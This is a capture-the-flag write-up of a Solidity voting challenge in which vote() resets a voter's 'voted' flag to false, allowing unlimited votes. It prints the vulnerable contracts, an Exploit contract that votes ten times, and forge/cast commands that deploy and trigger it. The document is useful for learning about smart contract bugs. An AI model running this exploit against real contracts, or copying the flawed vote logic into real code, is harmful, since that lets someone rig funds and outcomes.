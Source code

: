 This is some sort of voting, but it seems something is just not right? Well, let's see what the condition of *Setup.sol::isSolved()* &nbsp;  
&nbsp;  

```solidity
pragma solidity ^0.8.25;

import "./PrizePool.sol";
import "./Participants.sol";

contract Setup{
    PrizePoolBattle public immutable prizepool;
    Participant1 public immutable participant1;
    Participant2 public immutable participant2;
    Participant3 public immutable participant3;

    constructor() payable{
        require(msg.value >= 9 ether, "Need 9 ether to start challenge");
        prizepool = new PrizePoolBattle();
        participant1 = new Participant1{value: 5 ether}(address(prizepool));
        participant2 = new Participant2{value: 1 ether}(address(prizepool));
        participant3 = new Participant3{value: 3 ether}(address(prizepool));
    }

    function isSolved() public view returns(bool){
        (, uint winner) = prizepool.getWinner();
        return winner == 1;
    }

}
``` 
&nbsp;  

Well, the *isSolved()* function only returns true if the winner is the 1st party; we have to look into the *PrizePool Contract* to figure this out, but now let's analyze the constructor. It first deploys the *Prizepool Contract* and another 3 participants with each 5, 1, and 3 Ether, now that we know what the initial setup is, let's see what the *Participant Contract* is all about. &nbsp;  
&nbsp;  
```solidity
contract Participant1{
    PrizePoolBattle public immutable prizepool;

    constructor(address _target) payable{
        prizepool = PrizePoolBattle(_target);
        prizepool.addVoter{value: 5 ether}("Michelio");
        prizepool.vote(2);
    }
}
```
&nbsp;  
We are going to take a look at the first only since the other 2 are similar; it first calls the *addVote()* with 5 Ether and "**Michelio**" as name, I guess, and it votes for the 2nd Party, oh no, our competitor, it seems. Well, let's see the real deal now, the *Prizepool Contract* &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract PrizePoolBattle{
    struct Candidate {
        uint id;
        string name;
        uint voteCount;
    }

    struct Voter {
        uint id;
        string name;
        uint256 weight;
        bool voted;
    }

    mapping(uint => Candidate) public candidates;
    mapping(uint => Voter) public voters;
    mapping(address => bool) public votersExist;
    mapping(address => uint) public votersID;
    uint public candidatesCount;
    uint public votersCount;
    uint public winner;
    bool public winnerDeclared = false;

    event Voted(address indexed voter, uint indexed candidateId);
    event Winner(uint indexed candidateId, string name);

    modifier checkWinner(uint _candidateId) {
        _;
        if (candidates[_candidateId].voteCount >= 10 ether) {
            winnerDeclared = true;
            winner = _candidateId;
            emit Winner(_candidateId, candidates[_candidateId].name);
        }
    }

    constructor() {
        addCandidate("ENUMA");
        addCandidate("ALPHA");
    }

    function addCandidate(string memory _name) internal {
        require(
            keccak256(abi.encodePacked(_name)) == keccak256(abi.encodePacked("ENUMA")) ||
            keccak256(abi.encodePacked(_name)) == keccak256(abi.encodePacked("ALPHA")),
            "Only ENUMA or ALPHA can be added as candidates"
        );
        candidatesCount++;
        candidates[candidatesCount] = Candidate(candidatesCount, _name, 0);
    }
}
```
&nbsp;  
Let's view it part by part to make it more understandable. The first part is, of course, the constructor. When this contract is deployed, it immediately calls the *addCandidate()* function. This function will add new candidates based on the *Id*, as we can see on the *Struct Candidate* on the first few lines. The *candidateCounts()* is the one responsible for giving the *Id*, and the party can only be either *ENUMA* or *ALPHA*. Based on the constructor, we know that *ENUMA* has the *Id* of 1 and *ALPHA* has the *Id* of 2. &nbsp;  
&nbsp;  
The modifier *checkWinner()* will check at the end of a function run; if a candidate has a vote of 10, it will declare the *winner*. Let's continue to the rest of the functions. &nbsp;  
&nbsp;  
```solidity
    function addVoter(string memory _name) public payable{
        require(!votersExist[msg.sender], "Voter has already been added.");
        votersCount++;
        uint256 weight = msg.value;
        voters[votersCount] = Voter(votersCount, _name, weight, false);
        votersID[msg.sender] = votersCount;
        votersExist[msg.sender] = true;
    }

    function vote(uint _candidateId) public checkWinner(_candidateId) {
        require(votersExist[msg.sender], "You are not an eligible voter.");
        require(!winnerDeclared, "The winner has already been declared.");
        require(_candidateId > 0 && _candidateId <= candidatesCount, "Invalid candidate ID.");
        uint id = votersID[msg.sender];
        require(voters[id].voted == false, "You already vote!");
        voters[id].voted = false;
        candidates[_candidateId].voteCount += voters[id].weight * 1;
        emit Voted(msg.sender, _candidateId);
    }

    function getCandidateVoteCount(uint _candidateId) public view returns (string memory name, uint voteCount) {
        Candidate storage candidate = candidates[_candidateId];
        return (candidate.name, candidate.voteCount);
    }

    function getWinner() public view returns(string memory name, uint id){
        Candidate storage candidate = candidates[winner];
        return (candidate.name, candidate.id);
    }
```
&nbsp;  
We got 4 functions here; the first one is *addVoter()*; this function seems to check whether someone is already registered or not, and after that, it will increase the *votersCount()* and push it to the struct of Voter. What we know here is that the weight of someone's vote is determined by the money they put in, and at the end, it ensures that we can only register once by changing the *votersExist()* to true. &nbsp;  
&nbsp;  
Next up is the *vote()* function. We can see that the modifier *checkWinner()* is implemented here, meaning this function will be the one that triggers the change. It first has 3 checks to check whether the voter exists, check if the winner has been selected, and the one we voted to be either 1 or 2 only. We can see there it will get our ID and check whether we already vote or not by checking the *voted* attribute on our struct if it's already *true*, but here is the strange thing: after the check, instead of setting the *voted* to true, it resets us to *false*, meaning even if we have a very low weight, we can vote multiple times! Here is the logic error bug! &nbsp;  
&nbsp;  
The next 2 functions are only for getting the state of the vote count anytime and the winner if the winner is selected. So let's wrap up about what we have now. &nbsp;  
&nbsp;  

- Party Number 2 (*ALPHA*) has 9 Votes already (5 + 1 +3) from other Participants
- Party Number 1 (*ENUMA*) has 0 Vote
- We only have 1.2 Ether (based on *cast balance*)
- We have a logic error where we can vote unlimitedly. &nbsp;  
&nbsp;  

We have 2 choices here: we can do it manually by registering via *addVoter()* and send the vote 10 times, or we can make a smart contract that does that. In this approach, I'm going to create a smart contract that does just that, and here is the code. &nbsp;  
&nbsp;  
```solidity
pragma solidity ^0.8.25;

import "./PrizePool.sol";
import "./Setup.sol";

contract Exploit{
    Setup public setup;
    PrizePoolBattle public pp;

    constructor(address payable _setup) payable{
        setup = Setup(_setup);
        pp = PrizePoolBattle(address(setup.prizepool()));
    }

    function exploit() public {
        pp.addVoter{value: 1 ether}("Louis");
        for(uint a = 0 ; a < 10 ; a++){
            pp.vote(1);
        }
    }

}
```
&nbsp;  
Here is how we can deploy our Exploit contract and solve the lab &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit
forge create src/voting-frenzy/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --construcot-args $SETUP_ADDR --value 1ether

// Exploit the Contract
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
Running the command above, you should've exploited the contract and gotten your flag.